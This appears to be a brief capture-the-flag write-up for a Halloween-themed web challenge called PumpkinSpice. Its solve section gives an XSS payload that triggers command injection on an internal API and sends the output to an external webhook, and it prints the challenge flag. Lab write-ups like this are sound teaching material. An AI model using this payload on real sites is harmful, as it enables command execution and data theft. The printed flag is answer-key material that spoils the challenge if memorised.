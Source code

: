 # Description

PumpkinSpice
In the eerie realm of cyberspace, a shadowy hacker collective known as the "Phantom Pumpkin Patch" has unearthed a sinister Halloween-themed website, guarded by a devious vulnerability. As the moon casts an ominous glow, their cloaked figures gather around the flickering screens, munching on pickles, ready to exploit this spectral weakness.

# Source:

- [Source](./src/)
- [Zip](./web_pumpkinspice.zip)

# Solve

- Payload:
```html
<script>fetch('/api/stats?command=cat%20/flag*')
.then(data=>data.text())
.then(data=>fetch(`https://webhook.site/2d801f2b-8074-4cf5-bea6-b7d949f70598?a=${data}`));</script>
```

`Flag: HTB{th3_tr34t_m1s5i0n}`